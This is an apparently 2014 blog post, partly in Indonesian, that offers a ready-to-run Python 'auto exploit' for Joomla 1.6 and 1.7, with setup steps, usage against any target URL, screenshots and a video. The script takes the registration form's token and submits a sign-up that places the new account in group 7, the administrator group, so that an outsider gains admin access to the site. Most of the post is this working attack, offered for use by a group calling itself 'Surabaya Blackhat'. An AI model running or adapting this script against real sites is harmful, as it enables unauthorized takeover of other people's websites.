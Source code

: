 ```yaml
---
layout: post
title: "Joomla Com_User Auto Exploit with Python"
date: 2014-08-30 05:55:39 +0700
comments: true
categories: [exploit, python]
description: Joomla Com_User Auto Exploit with Python
keywords: Joomla Com_User Auto Exploit with Python
---
```


## Exploit Joomla version 1.6 & 1.7

### Require Install
* [Python](https://www.python.org/downloads/)
* [Python Requests Package](http://docs.python-requests.org/en/latest/user/install/#install)
<!-- more -->

### Who to?
* Kalian harus install dulu python
* Kalau sudah install pythonnya lanjut ke install Python Requests, download kemudian ektrak filenya dan jalankan seperti ini (linux):
```
sudo python setup.py install
```

* Kemudian simpan script python dibawah ke direktori dimana kalian ingin menyimpannya.
* Buka terminal (linux) Bash Scripting Python aka CMD (Windows)
* Masuk ke direktori (cd) dimana script tadi anda simpan.
* Jalankan sebagai contoh:
```
python sbh.py http://target.com/ usermu passwordmu emailmu
```

#### By xSecurity
#### Modif Sign by SunDi3yansyah | Surabaya Blackhat

{% codeblock sbh %}
#!/usr/bin/python
# Joomla Com_User Auto Exploit
# By xSecurity
# Modif Sign by SunDi3yansyah | Surabaya Blackhat

import requests as sec4ever, re, urllib, sys, os
from threading import Thread 
from time import sleep
def cls():
	os.system(['clear','cls'][os.name =='nt'])

cls()
print '''
   ____                  _                         ____  _            _    _           _   
  / ___| _   _ _ __ __ _| |__   __ _ _   _  __ _  | __ )| | __ _  ___| | _| |__   __ _| |_ 
  \___ \| | | | '__/ _` | '_ \ / _` | | | |/ _` | |  _ \| |/ _` |/ __| |/ / '_ \ / _` | __|
   ___) | |_| | | | (_| | |_) | (_| | |_| | (_| | | |_) | | (_| | (__|   <| | | | (_| | |_ 
  |____/ \__,_|_|  \__,_|_.__/ \__,_|\__, |\__,_| |____/|_|\__,_|\___|_|\_\_| |_|\__,_|\__|
                                     |___/                                                 
                                              _      _               
                        |  _  _.._._  _|_ _  |_) _  |_) __|__|_ _ ._ 
                        |_(/_(_|| | |  |_(_) |_)(/_ |_)(/_|_ |_(/_| 
        ---------------------------------------------------------------------
Joomla Version [1.6|1.7] [Com_User] Auto Exploit
Require Need Install Requests Python Package (Cari di google)
--------------------------------------------------------------
Surabaya Blackhat | Surabaya Hackerlink | Yogyakarta Blackhat
--------------------------------------------------------------
Please wait...'''

pwd2 = 'fio3jfiej9cewc9c9w0eufew9u'
def one(target,pwd1,pwd2,email):
	# Wrong Password
	x1 = xsec.get(target+'/index.php?option=com_users&view=registration')
	token = re.findall('type="hidden" name="(.*?)" value="1"', x1.text)
	post = {}
	post["jform[name]"] = 'SunDi3yansyah'
	post["jform[username]"] = user
	post["jform[password1]"] = pwd1
	post["jform[password2]"] = pwd2
	post["jform[email1]"] = email
	post["jform[email2]"] = email
	post["jform[groups][]"] = "7"
	post["option"] = "com_users"
	post["task"] = "registration.register"
	post[token[0]] = "1"
	p1 = xsec.post(target+'/index.php?option=com_users&view=registration', data=urllib.urlencode(post))
	x2 = xsec.get(target+'/index.php/component/users/?view=registration&layout=complete')

def exploit(target,pwd1,pwd2,email):
	# Wrong Password
	x3 = xsec.get(target+'/index.php?option=com_users&view=registration')
	token = re.findall('type="hidden" name="(.*?)" value="1"', x3.text)
	post = {}
	post["jform[name]"] = 'SunDi3yansyah'
	post["jform[username]"] = user
	post["jform[password1]"] = pwd1
	post["jform[password2]"] = pwd1
	post["jform[email1]"] = email
	post["jform[email2]"] = email
	post["jform[groups][]"] = "7"
	post["option"] = "com_users"
	post["task"] = "registration.register"
	post[token[0]] = "1"
	p2 = xsec.post(target+'/index.php?option=com_users&view=registration', data=urllib.urlencode(post))
	x4 = xsec.get(target+'/index.php/component/users/?view=registration&layout=complete')

xsec = sec4ever.session()
if len(sys.argv) == 5:
	target = sys.argv[1]
	user = sys.argv[2]
	pwd1 = sys.argv[3]
	email = sys.argv[4]
	one(target,pwd1,pwd2,email)
	ex = exploit(target,pwd1,pwd2,email)
	print ' * Go To Your Email & Active Then Login \n * Username: '+user+' & Password: '+pwd1
else:
	print "Usage: python sbh.py http://target.com/ usermu passwordmu emailmu"
{% endcodeblock %}

### Screenshot

{% img http://i40.photobucket.com/albums/e228/sundi3yansyah/WAzeF5n_zpsa0d8f316.png Joomla Com_User Auto Exploit with Python %}

{% img http://i40.photobucket.com/albums/e228/sundi3yansyah/L9F0YoC_zps2111c6a9.png Joomla Com_User Auto Exploit with Python %}

### Video

<iframe width="675" height="415" src="//www.youtube.com/embed/SHbTNPpx4_0" frameborder="0" allowfullscreen></iframe>